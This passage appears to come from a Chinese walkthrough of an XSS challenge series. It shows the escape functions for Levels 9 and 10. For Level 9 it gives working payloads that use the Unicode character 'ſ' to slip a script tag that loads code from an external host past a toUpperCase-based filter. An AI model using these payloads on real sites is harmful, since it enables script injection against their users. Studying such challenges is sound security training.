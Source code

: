 比较奇怪的是，js中的换行符跟unicode中的不一致。另外，HTML代码的注释可以在Javascript中使用

Level 9
-------

* * *

该题使用正则`<([a-zA-Z])`，导致无法注入HTML标签。但是toUpperCase()函数是支持Unicode函数。字符`ſ`经过函数toUpperCase()处理后，会变成ASCII码字符"S"。

### 代码

```
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}

```

### 答案

26个字符通杀浏览器的答案

```
<ſcript/ſrc=//⒕₨></ſcript>

```

或者使用async

```
<ſcript/async/src=//⒛₨>

```

Level 10
--------

* * *

这个题目使用两个正则过滤。比较容易

### 代码

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}

```
